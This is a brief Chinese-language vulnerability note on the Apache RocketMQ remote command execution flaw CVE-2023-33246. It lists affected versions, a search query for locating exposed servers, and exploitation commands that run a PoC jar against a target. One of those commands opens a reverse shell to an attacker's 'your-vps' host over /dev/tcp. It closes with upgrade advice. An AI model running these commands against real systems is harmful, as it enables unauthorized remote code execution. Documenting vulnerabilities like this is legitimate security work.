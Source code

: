 # Apache RocketMQ RCE 漏洞 CVE-2023-33246

## 漏洞描述

RocketMQ 是阿里巴巴在2012年开发的分布式消息中间件，专为万亿级超大规模的消息处理而设计，具有高吞吐量、低延迟、海量堆积、顺序收发等特点。

RocketMQ 5.1.0 及以下版本，在一定条件下存在远程命令执行风险。RocketMQ 的 NameServer、Broker、Controller 等多个组件暴露在外网且缺乏权限验证，攻击者可以利用该漏洞利用更新配置功能以 RocketMQ 运行的系统用户身份执行命令。此外，攻击者可以通过伪造 RocketMQ 协议内容来达到同样的效果。

## 漏洞影响

```
Apache RocketMQ <= 5.1.0
Apache RocketMQ <= 4.9.5
```

## 网络测绘

```
title="RocketMQ"
```

## 漏洞复现

poc：

```
java -jar CVE-2023-33246.jar -ip "target-ip" -cmd "command"
```

反弹 shell：

```
java -jar CVE-2023-33246.jar -ip "target-ip" -cmd "bash -i >& /dev/tcp/your-vps/9999 0>&1"
```

## 修复建议

目前官方已发布安全修复更新，受影响用户可以升级到Apache RocketMQ 5.1.1或者4.9.6。

链接：https://rocketmq.apache.org/download/

